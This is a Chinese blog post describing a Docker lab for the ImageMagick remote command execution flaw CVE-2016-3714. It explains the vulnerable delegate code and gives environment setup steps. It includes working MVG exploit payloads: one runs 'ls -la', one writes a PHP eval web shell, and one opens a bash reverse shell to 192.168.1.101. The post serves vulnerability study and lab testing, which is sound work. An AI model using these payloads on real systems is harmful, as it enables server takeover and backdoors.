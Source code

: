 ```yaml
---
layout: post
title: "ImageMagick 命令执行漏洞（CVE-2016–3714）环境"
date: 2016-08-23 16:14:04  +0800
image: '/assets/img/'
description: '5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。'
main-class: 'hole'
color: '#B31917'
tags:
- ImageMagick
- SQLI
categories:
- ImageMagick
twitter_text: '5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。'
introduction: '5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。'
---
```


### 说明

 感谢 [@justkg](https://github.com/justkg) 提供原始环境。

### 漏洞信息

 * [ImageMagick Is On Fire — CVE-2016–3714](https://imagetragick.com/)
 * [ImageMagick: Multiple vulnerabilities in image decoder](http://pastebin.com/aE4sKnCg)
 * [Write Up: Remote Command Execute in Wordpress 4.5.1](http://ricterz.me/posts/Write%20Up%3A%20Remote%20Command%20Execute%20in%20Wordpress%204.5.1?_=1462424557950)

5月3日，ImageMagick官方披露称，目前ImageMagick存在一处远程命令执行漏洞（CVE-2016–3714），当其处理的上传图片带有攻击代码时，可被远程执行任意代码，进而导致攻击者控制服务器。

ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

### 漏洞相关代码

ImageMagick 在 `MagickCore/constitute.c` 的 `ReadImage` 函数中解析图片，如果图片地址是 `https://` 开头的，即调用 InvokeDelegate。

`MagickCore/delegate.c` 定义了委托，[第 99 行](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L99)定义了要执行的命令。

```xml
99    "  <delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
```

最终 `InvokeDelegate` 调用 [`ExternalDelegateCommand` 执行命令](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L407)。

```c
#if !defined(MAGICKCORE_HAVE_EXECVP)
  status=system(sanitize_command);
#else
  if ((asynchronous != MagickFalse) ||
      (strpbrk(sanitize_command,"&;<>|") != (char *) NULL))
    status=system(sanitize_command);
  else
    {
      pid_t
        child_pid;

```

### 镜像信息

本镜像中提供了本地测试 PoC 和 远程测试 PoC


类型 | 值
:-:|:-:
开放端口 | 80
远程 PoC | /poc.php

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:i_imagemagick_1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 与 Exp 使用

#### 本地测试

在容器中 `/poc.png` 文件内容如下：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

构建时已经集成在容器中，可手动修改第 3 行的命令。

在物理机上直接执行下面命令验证漏洞：

```bash
$ docker exec i_imagemagick_1 convert /poc.png 1.png
```

或进入 docker容器 shell 中执行：

```bash
$ convert /poc.png 1.png
```

如果看到 `ls -al` 命令成功执行，则存在漏洞。

#### 远程命令执行测试

远程命令执行无回显，可通过写文件或者反弹 shell 来验证漏洞存在。

1.写一句话到网站根目录下：

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
pop graphic-context
 ```

2.反弹 shell:

 ```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
pop graphic-context
 ```

将上述两个 Exp 经过 base64 编码后发送到远程 `poc.php`，querystring 的 `key` 为 `img`。

也可修改 `poc.py` 后执行。
